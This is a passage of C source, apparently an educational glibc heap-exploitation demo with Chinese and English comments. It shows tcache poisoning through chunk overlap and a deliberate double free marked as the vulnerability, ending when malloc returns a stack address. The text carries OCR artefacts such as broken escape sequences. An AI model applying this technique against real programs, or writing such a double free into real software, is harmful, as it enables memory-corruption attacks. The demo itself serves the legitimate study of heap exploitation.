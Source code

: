 ```
    puts("Preparing heap layout");
    //首先申请7个大小为0x100的chunks来为后面填满tcache做准备
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i&lt;sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    //为了后面consolidation而申请一个chunk
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    //申请我们的vitcim chunk
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.n", a); 
    //申请一个用于防止合并的chunk
    puts("Allocating a padding to prevent consolidation.n");
    malloc(0x10);

    // cause chunk overlapping
    //现在需要我们来做一个chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    //首先填满tcache list
    puts("Step 1: fill up tcache list");
    for(int i=0; i&lt;7; i++){
        free(x[i]);
    }
    //第二步:将我们的victim free掉来让他被扔到unsorted bin中
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    //第三步:free前面的chunk来与我们的victim chunk合并
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    //第四步:通过从tcache中取出一个chunk来把我们的victim chunk放到tcache list中,并且再free一次victim chunk
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim againn");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    //简单的tcache poisoning
    // simple tcache poisoning
    puts("Launch tcache poisoning");
    //现在victim被包含在一个更大的free chunk中,我们可以通过overlapp chunk来做一个简单的tcache poisoning
    puts("Now the victim is contained in a larger freed chunk, we can do a simple tcache poisoning by using overlapped chunk");
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;

    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %pn", c);

    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!nn");

    // note
    puts("Note:");
```